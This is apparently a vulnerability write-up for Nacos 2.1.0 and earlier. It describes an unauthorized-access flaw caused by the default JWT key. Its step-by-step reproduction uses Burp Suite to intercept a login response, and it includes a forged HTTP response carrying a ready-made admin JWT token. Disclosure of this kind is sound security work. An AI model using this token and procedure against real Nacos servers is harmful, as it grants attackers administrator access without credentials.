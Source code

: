 #### Vuln Impact 

An issue has been discovered in Nacos affecting Nacos <= 2.1.0.Nacos users use the default JWT key to cause an unauthorized access vulnerability. Through this vulnerability, attackers can bypass user name and password authentication and directly log in to the Nacos user

#### Vuln Product

Nacos <= 2.1.0 version

#### Vulnerability reappearance

Step 1：Go directly to Nacos website, fill in any user name and password and use Burpsuite to grab the bag.

![login](img/login.png)

Step 2：Intercept the response packet.

![response](img/response.png)

Step 3: Modify the data packet as follows

```javascript
HTTP/1.1 200
Date: Thu, 10 Nov 2022 01:27:16 GMT
Content-Type: application/json
Content-Length: 13
Connection: close
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Content-Security-Policy: script-src 'self'
Server: elb

{"accessToken":"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTYxODEyMzY5N30.nyooAL4OMdiByXocu8kL1ooXd1IeKj6wQZwIH8nmcNA","tokenTtl":18000,"globalAdmin":true}
```

![new](img/new.png)

Step 4: Log in successfully after releasing the data packet.

![success](img/success.png)


